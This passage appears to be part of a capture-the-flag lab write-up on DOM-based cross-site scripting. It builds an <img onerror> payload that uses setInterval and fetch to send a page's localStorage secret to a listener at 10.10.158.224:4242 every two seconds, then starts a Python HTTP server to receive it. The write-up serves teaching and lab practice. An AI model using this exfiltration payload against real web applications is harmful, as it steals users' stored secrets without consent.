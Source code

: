 Taking the room text into consideration

>Furthermore, if you are able to get an interaction from the user but it isn't exactly what you were hoping for, perhaps the answer is to monitor the user closer and for longer!

we add an interval that executes the code every two seconds

```JavaScript
setInterval(function() {fetch('http://10.10.158.224:4242?secret=' + encodeURIComponent(localStorage.getItem('secret'))).then(response => {})},2000);
```

and finally wrap all that in our `<img>` trick for the final payload:

```JavaScript
<img src="x" onerror="setInterval(function() {fetch('http://10.10.158.224:4242?secret=' + encodeURIComponent(localStorage.getItem('secret'))).then(response => {})},2000);">
```

Now all we have to do is start a local http server listening on the port specified in our payload,

```
python3 -m http.server 4242
```

add a birthday in the web app with our payload as `Person` and an arbitrary `Date`,

![screenshot9](/DOM-Based_Attacks/assets/screenshot9.png)
